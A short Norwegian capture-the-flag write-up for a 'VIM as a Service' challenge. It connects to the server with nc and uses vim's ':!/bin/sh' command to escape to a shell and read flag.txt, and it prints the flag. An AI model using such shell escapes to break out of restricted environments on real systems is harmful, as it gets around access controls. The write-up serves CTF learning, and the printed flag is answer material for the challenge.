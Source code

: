 # VaaS

> VaaS
>
> Som innovatorene vi er så hard vi lansert VaaS! (VIM as a Service)!
>
> ctf.uiactf.no:5007

![](00.png)

---

Når vi kobler til serveren blir vi presentert med `vim` som forventet.

```bash
$ nc ctf.uiactf.no 5007

~
~
~
~
~                              VIM - Vi IMproved
~
~                               version 8.2.2434
~                           by Bram Moolenaar et al.
~                   Modified by team+vim@tracker.debian.org
~                 Vim is open source and freely distributable
~
~                        Help poor children in Uganda!
~                type  :help iccf<Enter>       for information
~
~                type  :q<Enter>               to exit
~                type  :help<Enter>  or  <F1>  for on-line help
~                type  :help version8<Enter>   for version info
~
~
~
~
~
                                                              0,0-1         All
```

`vim` har inebygget støtte for å kjøre kommandoer. Det vil si at vi kan kjøre `/bin/sh` for å spawne et shell.

Mer om dette her: https://gtfobins.github.io/gtfobins/vim/

```bash
:!/bin/sh
ls
flag.txt
cat flag.txt
UIACTF{flyktet_fra_vim!}
```

## Flagg

`UIACTF{flyktet_fra_vim!}`
